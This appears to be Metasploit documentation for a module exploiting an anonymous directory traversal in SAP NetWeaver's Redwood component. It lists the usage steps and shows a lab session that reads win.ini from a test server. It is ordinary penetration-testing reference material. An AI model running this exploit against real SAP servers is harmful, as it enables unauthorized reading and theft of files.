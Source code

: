 # Description

This module exploits an anonymous directory traversal vulnerability in the
Redwood module of the SAP NetWeaver Application Server. The vulnerability was
actively exploited in the wild in 2017.

# Verification Steps

 1. Start msfconsole
 2. use auxiliary/scanner/sap/sap_redwood_traversal
 3. set RHOSTS [IP]
 4. set FILEPATH [file_on_remote_server]
 5. set DEPTH [number]
 6. run

## Scenarios

Tested on Windows 2008 with SAP NetWeaver AS Java 7.52

```
msf5 > use auxiliary/scanner/sap/sap_redwood_traversal
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set rhosts 192.168.2.164
rhosts => 192.168.2.164
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set DEPTH 25
DEPTH => 25
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set FILEPATH Windows\win.ini
FILEPATH => Windows\win.ini
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > run

[+] 192.168.2.164:50000 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[+] File saved in: [local_path_in_your_machine]
```
